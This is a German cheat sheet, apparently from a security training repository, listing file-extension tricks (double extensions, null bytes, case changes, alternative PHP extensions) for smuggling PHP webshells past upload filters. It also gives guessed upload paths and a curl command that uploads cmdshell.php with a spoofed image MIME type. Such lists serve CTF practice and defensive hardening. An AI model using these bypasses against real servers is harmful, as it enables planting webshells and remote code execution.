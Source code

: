 # 🐚 PHP Webshell Upload Tricks & Bypasses

## 📘 Kontext

In diesem Dokument findest du typische Dateinamen- und Erweiterungstricks, die bei **File Upload Attacks** verwendet werden, um **PHP-Webshells** trotz Dateifilter oder Upload-Validierung auf einen Webserver zu schleusen.

Solche Techniken sind besonders in **Capture The Flag (CTF)**-Challenges, **Bug Bounty**-Szenarien und **Red Team Assessments** relevant – etwa wenn Dateiuploads nur scheinbar eingeschränkt werden.

> ⚠️ Diese Datei dient ausschließlich zu **Lern- und Testzwecken** in legalen Übungsumgebungen (z. B. TryHackMe, HackTheBox).

---

## 🧨 Klassische Upload-Namen für Webshells

```text
cmdshell.phtml
cmdshell.pht
cmdshell.php3
cmdshell.php4
cmdshell.php5
cmdshell.php6
cmdshell.inc
```

---

## 🖼️ Tarnung als Bilddatei (Double Extensions)

**Ziel:** 
Umgehen von Filtermechanismen, die .php blockieren, aber .jpg oder .png erlauben.

```text
cmdshell.php.jpg
cmdshell.php%00.jpg   # Null-Byte-Trick (nur bei älteren Servern möglich)
cmdshell.php;.jpg     # selten erlaubt, nutzt inkorrekte .htaccess oder MIME-Fehler
cmdshell.jpg.php
```

---

## 🔡 Groß-/Kleinschreibung (Bypass durch Case-Insensitive Filter)

Manche Filter prüfen nur .php in Kleinbuchstaben:
```text
cmdshell.pHp
cmdshell.Php
cmdshell.PHP
```

---

## 🛠️ Weitere gebräuchliche alternative Erweiterungen
Diese Erweiterungen werden auf manchen falsch konfigurierten Servern ebenfalls als PHP interpretiert:

```text
.pht
.phtml
.php3
.php4
.php5
.inc
```
---

## 📂 Upload-Verzeichnisse testen
Wenn du eine Datei erfolgreich hochgeladen hast, teste verschiedene Uploadpfade:

```bash
http://[IP]/uploads/cmdshell.php
http://[IP]/admin/uploads/cmdshell.phtml
http://[IP]/images/cmdshell.php.jpg
```

---

## 📜 Nützliches Tool: Content-Disposition & MIME-Typ prüfen
Manche Filter prüfen den MIME-Typ. Tools wie Burp Suite oder curl helfen dir, die Content-Type-Header zu manipulieren:

```bash
curl -X POST -F "file=@cmdshell.php;type=image/jpeg" http://target/upload.php
```

---

**💡 Hinweis:** 
Wissen über Webshell-Uploadtricks hilft auch Defensive Security Teams, um Dateiuploads richtig abzusichern und forensisch zu analysieren.

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!


---

## 📚 Siehe auch:

- [php_web_shell_usage.md](/03-web-security/phpWebShell/php_web_whell_usage.md)
- [php_rce_cheat_sheet.md](/03-web-security/phpWebShell/php_rce_cheat_sheet.md)
- [post_expoitation_tools.md](04-os-enumeration/post_exploitation_tools.md)
